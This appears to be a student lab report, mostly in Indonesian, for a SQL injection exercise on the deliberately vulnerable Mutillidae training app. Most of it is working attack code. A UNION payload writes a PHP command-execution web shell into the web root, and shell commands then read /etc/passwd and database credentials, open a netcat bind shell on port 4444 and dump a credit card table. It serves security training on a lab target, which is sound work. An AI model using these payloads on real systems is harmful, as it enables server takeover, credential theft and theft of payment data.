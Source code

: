 # Lesson 10 : SQL Injection Union Exploit #3 (Create PHP Execution Script)

## Start Web Browser Session to Mutillidae
- Buka browser kemudian akses Mutillidae sesuai ip metasploit pada alamat http://10.0.1.100/mutillidae
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/start_browser.png "Home page")

## Go To User Info Page
1. Go to User Info
   - OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info 

## Inject Backdoor into User Info Page
1. Inspect the Name Textbox with Firebug
   - Klik kanan pada Textbox Name, kemudian inspect element
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
3. Second Union SQL Injection Attempt
   - Pada kolom Textbox **Name** isikan 
```
	' union select null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><input type="text" name="CMD" size="50"><input type="submit" value="Execute Command" /></form><?php echo "<pre>";echo shell_exec($_REQUEST["CMD"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/html/mutillidae/execute_command.php' -- 
```
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
4. Viewing the Results
	- Scroll kebawah untuk melihat hasilnya
	- Perhatikan hasilnya

## Using the Backdoor for Basic Reconnaissance
1. Initial Reconnaissance
	- Buka url berikut pada browser 
	http://192.168.1.111/mutillidae/execute_command.php
	- Ketikkan perintah berikut pada textbox
	  ```whoami; pwd```
	- Klik tombol Execute Command
2. Who is Logged On
   - Ketikkan perintah berikut pada textbox
	 ```w```
   - Klik tombol Execute Command
3. Exploring /etc/passwd
   - Ketikkan perintah berikut pada textbox
	 ```cat /etc/passwd```
   - Klik tombol Execute Command
4. Network Reconnaissance
   - Ketikkan perintah berikut pada textbox
```
   netstat -nao | grep "0.0.0.0:"
```
   - Klik tombol Execute Command

## Using the Backdoor for Database Reconnaissance
1. Database Reconnaissance
   - Ketikkan perintah berikut pada textbox
```
   	find * -name "*.php" | xargs grep -i "password" | grep "="
```
   - Klik tombol Execute Command
2. View Database Authentication Attributes
   - Ketikkan perintah berikut pada textbox
```
   cat config.inc | grep -v "<?php"
```
   - Klik tombol Execute Command

##  Using the Backdoor for Netcat Reconnaissance
1. Netcat Reconnaissance
   - Ketikkan perintah berikut pada textbox
```
   which nc; netstat -nao | grep 4444 | wc -l
 ```
   - Klik tombol Execute Command
2. Execute Netcat
   - Ketikkan perintah berikut pada textbox
```
   mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe
```
   - Klik tombol Execute Command
3. On BackTrack, Start up a "another" terminal window
	- Buka terminal lain pada kali linux
4. Connect to Netcat
   - Konek ke mutillidae menggunkan netcat
   - Ketikkan perintah : `nc 10.0.1.100 4444`
   - Ketikkan perintah : `hostname` untuk melihat hostname
   - Ketikkan perintah : `whoami` untuk melihat user yang digunakan
5. View Credit Card Information
   - Pada terminal ketikkan printah-perintah berikut :
```
   echo "show databases;" | mysql -uroot -psamurai
   echo "use nowasp; show tables;" | mysql -uroot -psamurai
   echo "select * from nowasp.credit_cards;" | mysql -uroot -psamurai
```